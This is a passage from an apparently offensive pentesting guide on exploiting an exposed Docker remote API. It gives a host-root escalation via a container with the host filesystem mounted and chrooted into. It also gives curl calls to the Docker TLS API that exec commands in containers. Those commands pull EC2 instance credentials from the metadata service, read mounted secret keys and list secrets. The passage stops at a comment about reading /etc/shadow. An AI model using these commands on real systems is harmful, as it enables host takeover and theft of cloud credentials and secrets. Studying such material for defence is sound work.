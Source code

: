 ```bash
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.2.6
  GitCommit:        894b81a4b802e4eb2a91d1ce216b8817763c29fb
 runc:
  Version:          1.0.0-rc8
  GitCommit:        425e105d5a03fabd737a126ad93d62a9eeede87f
 docker-init:
  Version:          0.18.0
  GitCommit:        fec3683
```

If you can **contact the remote docker API with the `docker` command** you can **execute** any of the **docker** [**commands previously** commented](2375-pentesting-docker.md#basic-commands) to interest with the service.

{% hint style="info" %}
You can `export DOCKER_HOST="tcp://localhost:2375"` and **avoid** using the `-H` parameter with the docker command
{% endhint %}

**Fast privilege escalation**

```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```

**Curl**

Sometimes you’ll see **2376** up for the **TLS** endpoint. I haven’t been able to connect to it with the docker client but it's possible to do it with curl.

```bash
#List containers
curl –insecure https://tlsopen.docker.socket:2376/containers/json | jq
#List processes inside a container
curl –insecure https://tlsopen.docker.socket:2376/containers/f9cecac404b01a67e38c6b4111050c86bbb53d375f9cca38fa73ec28cc92c668/top | jq
#Set up and exec job to hit the metadata URL
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/blissful_engelbart/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "wget -qO- http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}'
#Get the output
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/4353567ff39966c4d231e936ffe612dbb06e1b7dd68a676ae1f0a9c9c0662d55/start -d '{}'
# list secrets (no secrets/swarm not set up)
curl -s –insecure https://tlsopen.docker.socket:2376/secrets | jq
#Check what is mounted
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "mount"]}'
#Get the output by starting the exec
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/7fe5c7d9c2c56c2b2e6c6a1efe1c757a6da1cd045d9b328ea9512101f72e43aa/start -d '{}'
#Cat the mounted secret
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /run/secrets/registry-key.key"]}'
#List service (If you have secrets, it’s also worth checking out services in case they are adding secrets via environment variables)
curl -s –insecure https://tls-opendocker.socket:2376/services | jq
#Creating a container that has mounted the host file system and read /etc/shadow
```